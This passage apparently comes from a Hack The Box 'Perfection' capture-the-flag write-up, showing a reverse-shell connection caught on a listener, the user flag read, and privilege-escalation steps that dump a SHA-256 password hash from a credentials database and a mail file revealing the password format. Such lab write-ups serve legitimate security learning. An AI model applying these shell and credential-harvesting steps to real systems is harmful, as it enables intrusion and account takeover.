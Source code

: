 It works!

![](_/htb-perfection-20240529-7.png)

## RCE

![](_/htb-perfection-20240529-8.png)

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.253] 39674
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
cat $HOME/user.txt
b417f98...
```

## PE

A conspicuous credential file gives up a SHA-256 hash:

```console
susan@perfection:~$ cat Migration/pupilpath_credentials.db
^ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023fsusan@perfection:~$
```

And there's a helpful email explaining the password format:

```console
susan@perfection:~$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students
in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
Note that all letters of the first name should be convered into lowercase.
Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
- Tina, your delightful student
```
